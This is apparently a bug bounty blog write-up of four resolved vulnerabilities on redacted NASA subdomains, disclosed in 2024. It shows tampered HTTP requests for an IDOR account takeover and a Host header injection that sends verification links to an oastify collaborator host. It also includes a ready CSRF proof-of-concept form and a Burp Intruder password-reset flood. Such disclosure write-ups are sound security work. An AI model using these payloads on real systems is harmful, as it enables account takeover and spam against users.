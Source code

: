 ```yaml
---
title: Account Takeovers & more :&nbsp;Hacking NASA
categories:
- write-ups
excerpt: |
  My experience of finding multiple security vulnerabilities in the NASA Systems. In this blog post, I’ll explain all the technical part and non-technical parts of it.
image: "https://picsum.photos/2560/600?image=733"
---
```


> I received 3 letters of appreciation from NASA for finding multiple potential Security vulnerabilities in their systems. In this blog post, I’ll explain all the technical part and non-technical parts of it.

### My Approach?

1 - I decided to look for [Access Control](https://portswigger.net/web-security/access-control), [IDOR's](https://portswigger.net/web-security/access-control/idor), [Authentication](https://portswigger.net/web-security/authentication) Issues. So, for that, I need functional assets that have some functionalities that need to be broken.

2 - Hence, I used very basic Google Dorks to find those assets, as a result found some of them.

3 - As a result discovered & reported several security vulnerabilities to NASA (P1,P2,P3,P4).

### 1 - IDOR leads to 0-Click Account Takeover
> <code style="color:red;"><b>P1</b></code> : <code style="color:Green;"><b>Resolved</b></code>

- Discovered that the Email Change functionality at `█████.pps.eosdis.nasa.gov` is vulnerable to IDOR.
- Yeah, so now it was pretty much very simple to change your email to some other existing user email.
- Create to account, `Account-A`(attacker) & `Account-B`(victim)
- Go to `Account A`, Change the email, and Intercept the request.

##### Request

```r
POST /registration/updateEmailRequest.html HTTP/1.1
Host: █████.pps.eosdis.nasa.gov
Cookie: {your-cookie};
Content-Length: 89
...snip...
Connection: close

oldEmail=attacker%40email.com&email=test%40email.com&confirmEmail=test%40email.com
```
- Change the `Old_email` parameter to `Account-B`(victim) email
```r
oldEmail=victim%40email.com&email=test%40email.com&confirmEmail=test%40email.com
```

- Observe that the application changed the email of `Account B`(victim)

### Host Header Injection
> <code style="color:red;"><b>P2</b></code> : <code style="color:Green;"><b>Resolved</b></code>

- Discovered a Host Header Injection on the Email Verification feature.
- Register on `█████.pps.eosdis.nasa.gov` & Click on `Verify Email`.
- Intercept the Request, Change the

**`Host: █████.pps.eosdis.nasa.gov`** with **`Host: your-collaborator-id.oastify.com`**

You'll receive the verification link in your email as:

```
https://yourburpcollaborator-is.oastify.com/registration/verifyContact/verification-token/attacker@email.com.html
```
- As an attacker, I could verify an account with any user email (belonging to individuals who do not intend to have an account on this web app) such as **`@nasa.gov`**.

### CSRF leads to 1-Click Account Takeover
> <code style="color:orange;"><b>P3</b></code> : <code style="color:Green;"><b>Resolved</b></code>

- This is another report regarding the same endpoint(case-1), which is the Change Email function. Previously, I discovered the IDOR on the same endpoint. In this report, I found that an attacker can perform a CSRF Attack on the Email Change functionality, allowing them to take over any user's account.
- Login █████.pps.eosdis.nasa.gov & Navigate to `Update Info` Page. Enable an HTTP interception proxy, such as Burp Suite.
- Change the email and Intercept the request. Generate the CSRF PoC.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/');</script>
    <h1>MAGIC HAPPENS, IF YOU CLICK THE BELOW BUTTON..!!</h1>
    <form action="https://█████.pps.eosdis.nasa.gov/registration/updateEmailRequest.html" method="POST">
      <input type="hidden" name="oldEmail" value="victim&#64;email&#46;com" />
      <input type="hidden" name="email" value="hacked&#64;email&#46;com" />
      <input type="hidden" name="confirmEmail" value="hacked&#64;email&#46;email" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
- Test it in the browser. The email will change & the verification goes to the attacker-controlled email.

### No Rate Limit on Forget-Password
> <code style="color:green;"><b>P4</b></code> : <code style="color:Green;"><b>Resolved</b></code>

- Lack of rate limiting on an email triggering endpoint (forget-password) was identified. This allows an attacker to create a large amount of emails to any email address, which they could use to spam a target with emails.
- Navigate to `█████.hec.nasa.gov/account/recover/pwd` , enter the email then click `Reset Password`
- Intercept this request in the burp suite, the HTTP request looks like

```r
POST /rms/apis/public/account/recover HTTP/1.1
Host: █████.hec.nasa.gov
Cookie: YOUR_SESSION_COOKIES
...snip...
Connection: close

{
    "username":"victim_user",
    "email":"victim@email.com"}
```

- Send it to the `Intruder` and Under the `Payload Section` choose `payload as null` payloads and generate `50` payloads

- You will receive `200 OK` in response, you can also check your mail inbox.
- Systems that use Software-as-a-Service (SaaS) email providers, there can be direct financial costs associated with sending large volumes of email. Triggers emails can result in reputational damage for the organization as user's trust is impacted through receiving large amounts of unwanted and unsolicited emails.

### Conclusion
It took me about 30 min to find these vulnerabilities in one asset. I didn't perform so much recon, automation ..etc. Just picked up one asset from Google dorks & Started hacking on it. And the vulnerabilities are pretty much very simple & straightforward.

#### Timeline
- Reported -> 03/July/2024
- Triaged -> 04/July/2024
- Resolved -> 25/July/2024
- Received letter of Appreciation -> 29/July/2024

<img src="/assets/logos/nasa.jpg" alt="loa_nasa" width="1000" height="auto">
